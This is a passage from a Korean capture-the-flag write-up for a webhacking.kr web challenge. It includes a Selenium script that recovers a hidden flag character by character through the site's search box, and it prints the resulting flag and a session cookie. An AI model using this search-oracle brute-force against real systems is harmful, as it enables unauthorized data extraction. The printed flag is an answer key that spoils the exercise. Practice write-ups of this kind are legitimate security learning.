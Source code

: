 그래서 혹시나 하고 글자 'a'를 입력하니 readme가 검색되었다. readme 내용 검색까지는 막지 않았나보다.
 그래서 혹시나하고 FLAG{ 를 입력했더니! 검색되었다! 파일안에는 FLAG 값이 있는 것이다.
{: .notice}

```python
from selenium import webdriver
from selenium.webdriver.remote.webelement import WebElement
from selenium.webdriver.common.keys import Keys
from selenium.webdriver import ActionChains
import re

url = "https://webhacking.kr/challenge/web-33/index.php"
chromedriver = 'C:/Users/authe/AppData/Local/Programs/Python/Python38/Scripts/chromedriver.exe'
driver = webdriver.Chrome(chromedriver)

cookie = {'name':'PHPSESSID', 'value':'v1uqotqa3hrq9i176g6dpb58b9'}
driver.add_cookie(cookie)
driver.get(url)

flag="FLAG{"

while True:
    for i in 'abcdefghijklmnopqrstuvwxyz!?@#_{}':
        driver.find_element_by_xpath("/html/body/center/form/input[1]").send_keys(flag+i);
        submitButton = driver.find_element_by_xpath("/html/body/center/form/input[2]")
        submitButton.click()
        if "admin" in driver.find_element_by_xpath("/html/body/center/table").text:
            flag+=i
            print(i)
            break
```

검색창에 flag{ 부터 문자 하나를 추가하여 검색해보고 admin이 나타나면 flag 문자열에 추가하도록 코드를 짰다. selenium은 지켜보는 재미가 있는것같다.
투명인간이 나 대신 일 해주듯 알파벳을 바꿔가며 검색하는 모습이 빠르게 보인다. 
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제56/56-5.JPG" alt="">
  <figcaption></figcaption>
</figure>

```
FLAG{himiko_toga_is_cute_dont_you_think_so?}
```

아마도 답은 위가 아닐까 한다. 그나저나 히미코 토가가 누굴까?
{: .notice}

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/assets/images/WebHacking.kr/문제56/56-6.JPG" alt="">
  <figcaption></figcaption>
</figure>

Clear!
{: .notice}






